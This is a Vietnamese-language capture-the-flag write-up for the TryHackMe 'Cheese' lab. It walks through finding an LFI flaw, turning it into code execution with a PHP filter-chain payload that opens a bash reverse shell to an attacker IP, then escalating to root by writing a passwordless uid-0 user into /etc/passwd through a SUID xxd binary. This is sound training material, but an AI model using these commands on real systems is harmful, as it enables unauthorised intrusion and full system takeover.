<div align="center">
    <h1>🧀 TryHackMe Cheese CTF Writeup 🐭</h1>
</div>

## 🚀 1. Khởi động taget



## 🔍 2. Recon

- Taget là một trang web `The Cheese Shop`



- Sử dụng `feroxbuster` quét các file, thư mục ẩn của mục tiêu:

```bash
feroxbuster -u http://10.10.140.148/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,html,config
```



- Phát hiện file có tên `messages.html` có dấu hiệu có thể khai thác



## 🔑 3. Khai thác trang web

- Chèn một số payload phát hiện trang này có thể chứa lỗ hổng `Local File Inclusion` (LFI)



- Sử dụng tool `php_filter_chain_generator` để tạo payload khai thác RCE dựa trên lỗ hổng này: https://github.com/synacktiv/php_filter_chain_generator

- Sử dụng lệnh sau, kết hợp với ip máy tấn công: `10.8.31.209` để tạo payload: 
```bash 
python3 php_filter_chain_generator.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/ 10.8.31.209/4444 0>&1\" '); ?>" | grep "^php" > payload2.txt
```
- Payload được lưu trữ trong file `payload2.txt`, chèn payload vào trường chứa lỗ hổng LFI.



- Thêm thành công, nghe cổng `4444`, nhận được reverse shell:



- Tuy nhiên khi thử đọc file `user.txt` thì quyền truy cập bị từ chối, vì vậy cần tạo ssh key với mục đích truy cập từ xa tới user `comte` để có quyền độc file user:





- Thêm SSH key vào máy mục tiêu.



- SSH thành công tới user `comte`



- Đọc file `user.txt` nhận được flag 🚩





## ⚠️ 4. Leo quyền lên root shell

- Dùng lệnh `sudo -l` để kiểm tra quyền thực thi các lệnh sau mà không cần nhập mật khẩu.



- Trong đó có thể kiểm soát `exploit.timer`, điều này mở ra cơ hội chèn một `service` độc hại
- Nội dung của `exploit.timer` có dạng như sau:



- `exploit.timer` là một `systemd timer`, có thể chạy một service (`exploit.service`) theo thời gian định sẵn. Nội dung của `exploit.service`:



- Service này tạo ra một bản sao của `xxd` trong `opt` và cấp cho nó quyền `suid` và quyền `execute`.

- Lợi dụng điều đó, sử dụng câu lệnh sau:
```bash
echo "hoang: :0:0:hoang:/root:/bin/bash" | xxd | /opt/xxd -r - "/etc/passwd" 
```
- Lệnh này tạo thêm một user tên “hoang” vào `etc/password`



- Sau đó đăng nhập vào user, user này thuộc group id root, ta có thể đọc được file `root.txt`





=> Hoàn thành bài lab 🔥🔥🔥


